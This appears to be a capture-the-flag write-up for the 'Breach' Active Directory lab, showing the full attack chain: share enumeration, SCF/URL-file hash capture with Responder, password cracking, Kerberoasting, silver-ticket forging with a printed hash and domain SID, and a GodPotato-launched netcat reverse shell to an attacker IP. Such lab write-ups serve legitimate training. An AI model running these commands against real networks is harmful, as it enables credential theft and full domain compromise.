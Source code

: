 
![](Breach_Cover.png)



## INFO

```
[*] Windows Server 2022 Build 20348 x64 (name:BREACHDC) (domain:breach.vl) (signing:True) (SMBv1:False)

PORT     STATE SERVICE
53/tcp   open  domain
80/tcp   open  http
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
1433/tcp open  ms-sql-s
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl
3389/tcp open  ms-wbt-server
```


Guest Share is accessible with write permission !

```
└─# crackmapexec smb 10.10.119.39 -u guest -p '' --shares
```


![](Guest_Access_.png)


## URL FILE ATTACK

We can perform this attack when we got write access to any share.

Interested Victim clicks the url file , Boom We get  [hash](https://github.com/xct/hashgrab) !


![](INternet_Short.png)


![](scf_attack.png)


![](scf_attacked.png)


If someone clicks on the url we get hash ! Start Responder !

```
└─# responder -I tun0 -v
```

![](../MEDIA_/Responder_Hash.png)

If they use simple password , thats good !

![](Crack_Creds.png)




## SVC_MSSQL

Cool ! We got domain user and a lot of possibilities to enumerate.

```
└─# impacket-GetUserSPNs breach.vl/julia.wong:Computer1 -dc-ip 10.10.119.39 -request
```


![](MSSQL_hash.png)

Cracking the SPN . 

```
└─# john --wordlist=/usr/share/wordlists/rockyou.txt mssql_svc.hash
```

![](SPN_Cracked.png)



SERVICE TICKET CHA BHANNE --> GENERATE FUCKING SILVER TICKET !!



Convert password --< hash
```
└─# crackmapexec smb 10.10.119.39 -u svc_mssql -H 69596C7AA1E8DAEE17F8E78870E25A5C
```


Lookup for the domain sids:

```
└─# impacket-lookupsid breach.vl/svc_mssql:Trustno1@10.10.119.39 -domain-sids
```


Generate a Silver Ticket !
```
└─# impacket-ticketer -nthash 69596C7AA1E8DAEE17F8E78870E25A5C -domain-sid S-1-5-21-2330692793-3312915120-706255856 -domain breach.vl -spn 'MSSQLSvc/breach.vl' Administrator
```

Export It !
```
└─# export KRB5CCNAME=Administrator.ccache
```


Explore!
```
┌──(root㉿BHASHMA)-[~/BACK_TO_THE_GAME/BREACH]
└─# impacket-mssqlclient breach.vl -k -no-pass 
```


![](Svc_Mssql.png)


Upload GodPotato and nc for the attack !

```
SQL (BREACH\Administrator  dbo@master)> xp_cmdshell C:\Users\Public\God.exe -cmd "cmd /c C:\Users\Public\nc64.exe 10.8.0.148 1337 -e C:\windows\system32\cmd.exe"
```

![](SYSTEM_.png)


WE OWN THE DC ! FOR PERSISTENCE WE CAN RUN ANY C2 !!




